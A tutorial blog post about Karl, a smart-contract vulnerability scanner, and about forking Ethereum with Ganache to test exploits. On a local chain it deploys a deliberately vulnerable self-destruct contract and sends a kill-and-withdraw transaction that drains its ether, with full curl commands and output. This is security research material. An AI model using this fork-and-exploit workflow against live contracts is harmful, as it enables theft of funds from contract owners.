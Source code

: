 ```yaml
---
title: How to Exploit Ethereum in a Virtual Environment
summary: This is going to be a series about some of the techniques I implemented when designing Karl, a free tool that finds exploitable code in live smart contracts. When I monitor the Ethereum blockchain for vulnerable contracts, I need a way to determine if the vulnerabilities I find are the real thing, or merely a scattering of false positives and honeypots. I’ve been able to mitigate this possibility by testing for vulnerabilities in a virtual copy of the blockchain. Virtual environment A blockchain
authors:
  - Daniel Luca (@cleanunicorn)
date: 2019-02-01
some_url: 
---
```


# How to Exploit Ethereum in a Virtual Environment


> This is going to be a series about some of the techniques I implemented when designing Karl, a free tool that finds exploitable code in live smart contracts.

When I monitor the Ethereum blockchain for vulnerable contracts, I need a way to determine if the vulnerabilities I find are the real thing, or merely a scattering of false positives and honeypots. I’ve been able to mitigate this possibility by testing for vulnerabilities in a virtual copy of the blockchain.

![](https://ipfs.infura.io/ipfs/QmWabvaWJfFg893rYCF1UDSkfFA5Ua8gbZK2E6CU88HJwd)


#### Virtual environment
A blockchain clone is useful because we could break the contract arbitrarily sending transactions to it. Remember 
[“I accidentally killed it”](https://github.com/paritytech/parity-ethereum/issues/6995)
 ?
Another great reason to use a virtual environment is that once you send transactions to the blockchain, any other person watching it will know how to exploit it, and they may not be as diligent as you about 
[responsibly disclosing the vulnerability](https://en.wikipedia.org/wiki/Responsible_disclosure)
 to the creators of the application.
Even if you wanted to exploit the contract, you would still need to make sure the exploit works by testing it before carrying out the attack.

#### How to setup the virtual environment
You may know about ganache, the whipped filling of chocolate and cream, used in desserts such as cakes and truffles. Mmmmhhm yeah! But there’s another ganache that works really well with truffles.
Being part of the 
[Truffle Framework](https://truffleframework.com/)
 , a smart contract development environment, 
[Ganache](https://truffleframework.com/ganache)
 is your on-demand personal Ethereum blockchain, perfect for local development… and hacking!
Compared to 
[Geth](https://github.com/ethereum/go-ethereum)
 or 
[Parity](https://github.com/paritytech/parity-ethereum)
 , Ganache is easier to setup and it’s not as resource intensive.
You can install and run Ganache in just 2 commands (if you have 
[Node.js](https://nodejs.org/)
 installed)

```
$ npm install -g ganache-cli
$ ganache-cli
```


And you have your own personal blockchain.

#### Forking the mainnnet
A little-known feature of Ganache is 
**forking**
 another blockchain. You can think about this as 
**cloning**
  
**an existing blockchain**
 , but don’t worry, you won’t need to download the entire blockchain! Ganache will start instantly and will only query the real blockchain when it needs to, for example to read the contract’s code and state.

```
$ ganache-cli -f https://mainnet.infura.io
```


And you can fork the chain at a specific block if that’s what you need, for example forking at block 100.

```
$ ganache-cli -f https://mainnet.infura.io@100
```


This will provide a 
**blockchain clone**
 that is safe to play with. It will create a local instance and you can send transactions and deploy new contracts, run your exploit and check its validity. All of this without touching the 
_real blockchain_
 , without anyone else knowing what you’re doing and without self-destructing libraries by mistake.

### Exploiting in a virtual environment walk-through
> This is where we start to go into details. You need a few things installed.

In the following example you will:



 * Run Karl and monitor for vulnerable contracts

 * Fork the chain after we find a vulnerable contract

 * Test the exploit and see if we stole some ether

#### Karl
If you don’t know about Karl, go to the GitHub page and star the project. It helps you find vulnerable contracts on Ethereum.
 
[https://github.com/cleanunicorn/karl](https://github.com/cleanunicorn/karl)
 
> If you find any bugs or have any problems running Karl, please report an issue.

Karl is available as a 
[PyPI package](https://pypi.org/project/karl/)
 , so you can just install it by running:

```
$ pip install --user karl
```


Typically you would point Karl at the main Ethereum network and monitor the contracts that get deployed there. For demonstration purposes, we’re going to monitor a local test chain instead. We’ll use Ganache for this test chain too.
We start a private Ganache instance.

```
$ ganache-cli -d
```


Start Karl and monitor for new contracts.

```
$ karl --rpc localhost:8545
```


In the Ganache console you will see Karl polling for new blocks, waiting for a new contract to be deployed.

```
Listening on 127.0.0.1:8545
eth_blockNumber
eth_getBlockByNumber
eth_getBlockByNumber
eth_getBlockByNumber
eth_getBlockByNumber
eth_getBlockByNumber
...
```


We’re going to deploy a vulnerable contract ourselves.
This curl request deploys a vulnerable contract along with 1 ether.

```
curl -X POST -d '{"id": 1, "jsonrpc": "2.0", "method": "eth_sendTransaction", "params": [{"from": "0xaca94ef8bd5ffee41947b4585a84bda5a3d3da6e", "gas": "300000", "value": "0xde0b6b3a7640000",  "data": "0x608060405260c0806100126000396000f3fe6080604052348015600f57600080fd5b50600436106044577c01000000000000000000000000000000000000000000000000000000006000350463cbf0b0c081146049575b600080fd5b607960048036036020811015605d57600080fd5b503573ffffffffffffffffffffffffffffffffffffffff16607b565b005b8073ffffffffffffffffffffffffffffffffffffffff16fffea165627a7a72305820ddb174c0ae06fce4c792c57814a3c70d932e0ae31a6a3560c4ca0bb7be11bc370029"}]}' localhost:8545
```


Karl should find a vulnerability right away.

```
POSSIBLE VULNERABILITY!
Initial balance = 100000000000000000000, final balance = 101999999999999985722
```



```
Type = VulnerabilityType.KILL_AND_WITHDRAW
Description = Looks line anyone can kill this contract and steal its balance.
Transactions = [{'from': '0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e', 'to': '0x07a457d878BF363E0Bb5aa0B096092f941e19962', 'data': '0xcbf0b0c0bebebebebebebebebebebebe1dF62f291b2E969fB0849d99D9Ce41e2F137006e', 'value': 0}]
```


Now we can fork the chain and check the vulnerability ourselves.

#### Forking the chain
The original chain is located at 
`http://localhost:8545`
 , because we're running this on the same machine we can start Ganache with fork functionality and start it on a different port.

```
$ ganache-cli -f http://localhost:8545 -d -p 9545
```


Each flag explained:



 *  `-f http://localhost:8545` tells Ganache what chain to fork

 *  `-d` runs Ganache in deterministic mode, the same wallets are generated every time; this is important because you can copy paste the curl commands and you don’t need to update the address that deploys the contract

 *  `-p 9545` sets a different port to run on (the default 8545 is already used by our test chain)
Once the fork is up and running, we can send the transaction that Karl reported and see if we successfully stole the contract’s ether.
First check the initial balance of the address that will exploit the vulnerable contract 
`0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e`
 .

```
$ curl -X POST -d '{"id": 1, "method": "eth_getBalance", "params":["0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e"]}' localhost:9545
```



```
{"id":1,"result":"0x56bc75e2d63100000"}
```


Our current balance is 
`0x56bc75e2d63100000`
 which is exactly 100 ether in hex format.

#### Exploiting the contract
We send the transaction Karl reported

```
$ curl -X POST -d '{"id": 1, "method": "eth_sendTransaction", "params":[{"from": "0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e", "to": "0x07a457d878BF363E0Bb5aa0B096092f941e19962", "data": "0xcbf0b0c0bebebebebebebebebebebebe1dF62f291b2E969fB0849d99D9Ce41e2F137006e", "value": 0}]}' localhost:9545
```



```
{"id":1,"result":"0xbac0d287bcc30e262e90161ab01a6d5b978ef981a103414125d3a4877b8e55e1"}
```


We see a successful response with the transaction hash in the result.

#### Checking the final balance
The last thing to do is get the final balance of the account.

```
$ curl -X POST -d '{"id": 1, "method": "eth_getBalance", "params":["0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e"]}' localhost:9545
```



```
{"id":1,"result":"0x579a71129ec175000"}
```





 *  `0x56bc75e2d63100000` initial balance

 *  `0x579a71129ec175000` final balance
Doing the math we see that the difference is almost 1 ether, the initial ether we sent in the contract when we deployed it, minus the transaction fee when exploiting it.

![](https://ipfs.infura.io/ipfs/QmanyTPWGb3izbf1PfhkauC3XadshJU61dQABQ4Zm9psF5)

The cool thing is that Karl does this automatically for you. It creates the local fork, tries the exploit and outputs an alert when there is an exploitable vulnerability.

![](https://ipfs.infura.io/ipfs/QmYg2wkj98MEp5UzTB6W51D9881TL4v5gwLTeBSrpc6hs4)

All this goodness is already implemented and packaged for you.
 
[https://github.com/cleanunicorn/karl](https://github.com/cleanunicorn/karl)
 



---

- **Kauri original link:** https://kauri.io/how-to-exploit-ethereum-in-a-virtual-environment/a2e4170b93024f8cb92d7b1a23e44725/a
- **Kauri original author:** Daniel Luca (@cleanunicorn)
- **Kauri original Publication date:** 2019-02-01
- **Kauri original tags:** security, Ethereum
- **Kauri original hash:** QmckYQGoaMKHyeiaG2zZTRqEbWAhqQPzcWpYisCaGvUS3s
- **Kauri original checkpoint:** QmRS3wCLX2MRi62bg9NTM89qNkgm3XjpKXciLvCKAr1f1g



